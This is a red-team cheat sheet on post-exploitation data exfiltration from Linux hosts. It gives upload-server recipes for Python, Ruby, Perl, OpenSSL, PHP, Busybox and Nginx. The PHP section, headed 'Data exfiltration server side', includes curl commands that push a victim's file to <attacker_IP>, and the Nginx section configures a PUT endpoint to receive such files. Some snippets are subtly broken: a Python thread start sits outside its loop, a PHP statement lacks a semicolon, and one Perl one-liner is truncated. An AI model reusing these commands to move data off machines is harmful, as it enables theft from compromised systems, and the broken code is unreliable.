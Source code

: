 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - linux
---
```

# Setup

## 01 - Python

> [!NOTE]
> By default it runs the service with port 8000 if it is not specified

```
$ sudo python2 -m SimpleHTTPServer 80

$ sudo python3 -m http.server 80
```

A python script to start a server with HTTP `PUT` method.

```python
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler

class PUTHandler(BaseHTTPRequestHandler):
	def do_PUT(self):
		length = int(self.headers['Content-Length'])
		content = self.rfile.read(length)
		self.send_response(200)
		with open(self.path[1:], "w") as f:
			f.write(content)

def run_on(port):
	print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[0], port))
	server_address = (sys.argv[1], port)
	httpd = HTTPServer(server_address, PUTHandler)
	httpd.serve_forever()

if __name__ == "__main__":
	if len(sys.argv) < 3:
		print("Usage:\n\tpython {0}) <IP> <PORT>".format(sys.argv[0]))
		sys.exit(1)
	ports = [int(arg) for arg in sys.argv[2:]]
	try:
		for port_number in ports:
			server = Thread(target=run_on, args=[port_number])
			server.daemon = True
		server.start()
		signal.pause()
	except KeyboardInterrupt:
		print("\nPython HTTP PUT Server Stopped.")
		sys.exit(1)
```

## 02 - Ruby

> [!NOTE]
> You'll need to install `webrick`. By default it'll use port 8080 if port is not specified.

To install the ruby gem:

```
$ gem install webrick
```

To install in Debian/Ubuntu

```
$ sudo apt install ruby-webrick
```

Host a webserver via Ruby

```
$ sudo ruby -run -ehttpd . -p 80
```

## 03 - Perl

```
$ perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=><PORT>); $s->mount("/"=>{path=>"."}); $s->start'

$ perl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |"
```

## 04 - OpenSSL

Generate self-signed **certificate** (`.crt`) and **private key** (`.key`).

```
$ openssl req -x509 -nodes -days 365 -newkey rsa:4096 -keyout private.key -out certificate.crt
```

Start an encrypted web server. The default port is 4433.

```
$ openssl s_server -cert certificate.crt -accept <PORT> -WWW
```

## 05 - PHP

Data exfiltration server side.

```php
<?php
/*
$ sudo mkdir -p /var/www/html/uploads/ && \
sudo chown www-data:www-data /var/www/html/

$ curl <-F | --form> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

$ curl <-T | --upload-file> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
*/

$target_directory = "uploads/"
$target_file = $target_directory . basename($_FILES["fileToUpload"]["name"]);

echo "Source=" . $_FILES["fileToUpload"]["name"] . "<br/>";
echo "Target path=" . $target_directory . "<br/>";
echo "Size=" . $_FILES["fileToUpload"]["size"] . "<br/>";

if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded";
} else {
    echo "There was an error uploading the file, please try again!";
}
?>


<!DOCTYPE html>
<html>
    <body>
        <form method="post" enctype="multipart/form-data">
            Select File to upload:
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" name="Upload">
        </form>
    </body>
</html>
```

To install in Debian/Ubuntu

```
$ sudo apt install apache2

$ sudo apt install nginx
```

Host a web server via PHP

```
$ sudo php -S 0.0.0.0:80 [-t /path/to/directory/]

$ sudo systemctl start apache2

$ sudo systemctl start nginx
```

## 06 - Busybox

```
$ busybox httpd -f -p <PORT> -h .
```

## 07 - Nginx

Create directory then modify the user and group for low privileges. Enter the nginx virtual host directory.

```
$ mkdir -p /var/www/upload/

$ chown www-data:www-data /var/www/upload/

$ cd /etc/nginx/sites-available/
```

Write a simple configuration file to accept `PUT` HTTP method. Call it `file_upload`.

```
server {
	listen <attacker_PORT> default_server;
	server_name <computer_name>;
		location / {
			root /var/www/upload;
			dav_methods PUT;
		}
}
```

Enable `file_upload` virtual host startup directory then start the web server.

```
$ cd /etc/nginx/sites-enable/

$ ln -s /etc/nginx/sites-available/file_upload file_upload

$ sudo systemctl start nginx
```

---
## References

### ExploitDB

- [ExploitDB: File Transfer Skills in the Red Team Post Penetration Test](https://www.exploit-db.com/docs/english/46515-file-transfer-skills-in-the-red-team-post-penetration-test.pdf)